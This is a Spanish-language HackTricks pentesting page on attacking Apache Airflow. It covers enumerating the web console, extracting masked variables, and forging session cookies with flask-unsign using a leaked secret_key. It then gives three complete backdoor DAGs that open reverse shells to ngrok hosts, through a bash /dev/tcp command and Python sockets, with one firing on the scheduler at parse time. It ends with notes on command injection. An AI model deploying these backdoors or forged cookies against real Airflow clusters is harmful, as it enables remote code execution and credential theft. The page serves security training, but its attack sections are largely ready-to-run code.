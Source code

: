 # Seguridad de Apache Airflow

<details>

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Información Básica

[**Apache Airflow**](https://airflow.apache.org) sirve como una plataforma para **orquestar y programar tuberías de datos o flujos de trabajo**. El término "orquestación" en el contexto de tuberías de datos significa el proceso de organizar, coordinar y gestionar flujos de trabajo de datos complejos que provienen de diversas fuentes. El propósito principal de estas tuberías de datos orquestadas es proporcionar conjuntos de datos procesados y consumibles. Estos conjuntos de datos son ampliamente utilizados por una variedad de aplicaciones, incluyendo pero no limitado a herramientas de inteligencia empresarial, ciencia de datos y modelos de aprendizaje automático, todos los cuales son fundamentales para el funcionamiento de aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando sucede algo** (evento, cron).

## Laboratorio Local

### Docker-Compose

Puedes utilizar el **archivo de configuración docker-compose desde** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno completo de apache airflow en docker. (Si estás en MacOS asegúrate de asignar al menos 6GB de RAM a la máquina virtual de docker).

### Minikube

Una forma sencilla de **ejecutar apache airflow** es hacerlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o podrías encontrar configuraciones débiles en su lugar:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC de Airflow

Antes de comenzar a atacar Airflow, debes entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeración de la Consola Web

Si tienes **acceso a la consola web**, podrías ser capaz de acceder a alguna o a toda la siguiente información:

* **Variables** (Aquí podría almacenarse información sensible personalizada)
* **Conexiones** (Aquí podría almacenarse información sensible personalizada)
* Acceder a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como la **`secret_key`** y contraseñas podrían estar almacenadas aquí)
* Listar **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

### Recuperar Valores de Variables

Las variables pueden almacenarse en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos**, puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Por defecto, Airflow mostrará el valor de la variable en la GUI, sin embargo, según [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/), es posible establecer una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Sin embargo, estos **valores** aún pueden ser **recuperados** a través de **CLI** (necesitas tener acceso a la base de datos), ejecución de **DAG arbitrario**, **API** accediendo al punto final de variables (la API debe estar activada) ¡e incluso la GUI misma!\
Para acceder a esos valores desde la GUI, simplemente **selecciona las variables** que deseas acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **ataque de fuerza bruta** al **valor oculto** utilizando el **filtro de búsqueda** hasta que lo obtengas:

![](<../../.gitbook/assets/image (152).png>)

### Escalada de Privilegios

Si la configuración **`expose_config`** está establecida en **True**, desde el **rol de Usuario** y **superiores** pueden **leer** la **configuración en la web**. En esta configuración, aparece la **`secret_key`**, lo que significa que cualquier usuario con esta clave válida puede **crear su propia cookie firmada para hacerse pasar por cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Puerta trasera DAG (RCE en el trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se guardan los **DAGs**, simplemente puedes **crear uno** que te enviará una **shell inversa**.\
Ten en cuenta que esta shell inversa se ejecutará dentro de un **contenedor de trabajador de Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Puerta trasera DAG (RCE en el programador de Airflow)

Si configuras algo para que se **ejecute en la raíz del código**, en el momento de escribir esto, será **ejecutado por el programador** después de un par de segundos después de colocarlo dentro de la carpeta del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Creación de DAG

Si logras **comprometer una máquina dentro del clúster DAG**, puedes crear nuevos **scripts DAG** en la carpeta `dags/` y serán **replicados en el resto de las máquinas** dentro del clúster DAG.

### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI, puedes **pasarle argumentos**.\
Por lo tanto, si el DAG no está codificado correctamente, podría ser **vulnerable a Inyección de Comandos.**\
Eso es lo que sucedió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **empezar a buscar inyecciones de comandos en DAGs** es que los **parámetros** se **acceden** con el código **`dag_run.conf.get("nombre_parametro")`**.

Además, la misma vulnerabilidad podría ocurrir con las **variables** (ten en cuenta que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables se **acceden con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, se podría realizar una inyección de comandos.

<details>

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
